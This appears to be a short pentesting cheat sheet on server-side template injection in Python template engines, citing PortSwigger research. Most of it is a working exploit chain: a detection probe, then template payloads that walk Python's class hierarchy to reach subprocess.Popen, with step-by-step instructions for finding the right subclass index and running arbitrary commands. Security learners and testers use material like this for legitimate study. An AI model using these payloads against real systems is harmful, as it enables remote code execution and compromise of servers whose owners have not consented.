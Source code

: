 #### Sometimes when user input is accepted, either intentional or unintentional we get XSS, sometimes this also means we cen get template injection

[Report on Template Injection](https://portswigger.net/research/server-side-template-injection)

test with `{{'7'*7}}`

`{{''.__class__.mro()[1].__subclasses__()}}` _you may need to change dict selection of class to get the output of interesting functions_

_once you find it, do a replace all '>' with a newline, so that you can determine which number to specify as subclass_

Check the report carefully, as you can see that the `__` are hidden due to the processing of the data as Markdown in the initial report.
You may need to change the value 1 to get the list of interesting functions. Once you get it, you will need to find one that will give you code execution. You can use the following payload to get access to <class 'subprocess.Popen'>:

`{{''.__class__.mro()[1].__subclasses__()[X]}}`

Where X is the integer you need to find.

Finally, you can call this method using:

`{{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}}`  
`{{''.__class__.mro()[2].__subclasses__()[233](["PATH_TO_BINARY","ARG_1"])}}`

Where:

`X` was found previously.
`COMMAND` is the command you want to run.
Make sure you read the Python documentation for the popen to make sure you have get the right syntax for the command (or add the right option).
